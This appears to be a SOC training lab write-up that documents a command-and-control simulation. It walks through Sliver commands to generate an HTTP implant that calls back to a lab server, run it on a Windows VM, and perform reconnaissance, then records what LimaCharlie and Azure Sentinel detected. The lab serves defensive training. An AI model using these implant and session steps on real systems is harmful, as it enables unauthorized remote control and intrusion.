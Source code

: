 # Command and Control (C2) Simulation

This document outlines the steps and observations related to the C2 simulation performed during the SOC Analyst 2.0 Lab using the Sliver framework.

## Overview
Command and Control (C2) is a common adversarial technique used to maintain communication with a compromised system. This simulation demonstrates how a Sliver implant is used to establish a C2 session and simulate adversarial activity on a target system.

---

## Steps Taken

### 1. Generate and Deploy the C2 Implant
- **Verify Implant Storage**:
  - Checked the list of implants stored on the Sliver server by running:

    implants

- **Generate Implant**:
  - Created a Sliver implant using the following command:
    
    generate --http 172.25.114.254 --save /mnt/c/Users/sywtbsa/Downloads/
    
    - The implant was saved in the Windows VM's Downloads directory.

- **Deploy Implant**:
  - Transferred the implant to the Windows VM and executed it via an administrative command prompt:
    
    C:\Users\sywtbsa\Downloads\[your_C2-implant.exe]
    

---

### 2. Establish a C2 Session
- **Verify Implant Connection**:
  - Verified that the implant successfully connected to the Sliver server by running:
    
    sessions
    

- **Interact with the Session**:
  - Interacted with the session by running:
    
    use [session_id]
    

---

### 3. Execute Reconnaissance Commands
- Gathered system information using the following commands:
  - **Identify System Info**:
    
    info
    whoami
    pwd
    
  - **Network Activity**:
    
    netstat
    
  - **Running Processes**:
    
    ps -T
    

---

## Observations
- The implant successfully established a C2 session and allowed interaction with the compromised system.
- Reconnaissance commands revealed:
  - User privileges.
  - Active network connections.
  - Running processes.

---

## EDR and SIEM Insights

### LimaCharlie
- **Process Tree**:
  - LimaCharlie flagged the implant as an unsigned process and highlighted it in green in the process tree.
- **Network Activity**:
  - Telemetry captured the implant’s HTTP communication with the Sliver server.

### Azure Sentinel
- Detection rules flagged:
  - Unusual outbound HTTP traffic.
  - Unauthorized process creation events.

---
